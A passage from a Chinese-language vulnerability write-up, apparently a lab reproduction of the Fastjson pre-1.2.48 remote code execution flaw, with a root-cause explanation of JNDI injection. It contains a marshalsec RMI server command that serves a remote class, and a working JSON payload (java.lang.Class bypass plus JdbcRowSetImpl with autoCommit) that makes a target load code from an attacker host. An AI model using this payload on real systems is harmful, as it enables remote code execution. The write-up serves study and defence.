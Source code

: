 5. 然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

   ```http
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://XXXXXX/#TouchFile" 9999
   ```

6. 向靶场服务器发送恶意payload

   ```json
   {
       "a":{
           "@type":"java.lang.Class",
           "val":"com.sun.rowset.JdbcRowSetImpl"
       },
       "b":{
           "@type":"com.sun.rowset.JdbcRowSetImpl",
           "dataSourceName":"rmi://XXXXX:9999/Exploit",
           "autoCommit":true
       }
   }
   ```

   ![fastjson]({{ '/styles/images/fastjson2/4.png' | prepend: site.baseurl  }})

7. 点击提交请求，成功执行命令，弹出计算器

   ![fastjson]({{ '/styles/images/fastjson2/5.png' | prepend: site.baseurl  }})

### 三、漏洞原理分析

​		Fastjson远程代码执行漏洞主要是因为fastjson在处理以@type形式传入的类的时候，会默认调用该类的共有set\get\is函数，因此我们在寻找利用类的时候思路如下：

1. 类的成员变量我们可以控制；
2. 想办法在调用类的某个set\get\is函数的时候造成命令执行。

​      于是便找到了JdbcRowSetImpl类，该类在setAutoCommit函数中会对成员变量dataSourceName进行lookup，标准的[jndi(Java Naming and Directory Interface)注入利用](https://kingx.me/Exploit-Java-Deserialization-with-RMI.html)。

**注：JNDI (Java Naming and Directory Interface) 是一组应用程序接口，它为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI在局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。**

jndi注入整个利用流程如下：

1. 目标代码中调用了InitialContext.lookup(URI)，且URI为用户可控；
2. 攻击者控制URI参数为恶意的RMI服务地址，如：rmi://hacker_rmi_server//name；
3. 攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类；
4. 目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例；
5. 攻击者可以在Factory类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到RCE的效果；

​		此次漏洞利用的核心点是java.lang.class这个java的基础类，在fastjson 1.2.48以前的版本没有做该类做任何限制，加上代码的一些逻辑缺陷，造成黑名单以及autotype的绕过。

#### 3.1 漏洞分析
